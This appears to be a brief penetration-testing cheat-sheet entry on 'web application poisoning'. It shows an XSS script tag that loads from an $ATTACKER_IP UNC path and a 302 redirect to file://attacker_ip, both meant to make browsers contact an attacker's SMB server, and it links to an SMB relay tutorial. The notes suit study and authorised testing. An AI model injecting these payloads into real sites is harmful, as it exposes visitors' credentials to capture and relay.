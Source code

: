 # 🛠️ Web applications poisoning

XSS \(like `<script>language='javascript' src='\\$ATTACKER_IP\something'</script>`\)

Other attacks that allow to edit the website content and make browsers request the attacker

SMB trap etc. HTTP server sends 302 redirect to file://attacker\_ip/something

[https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)

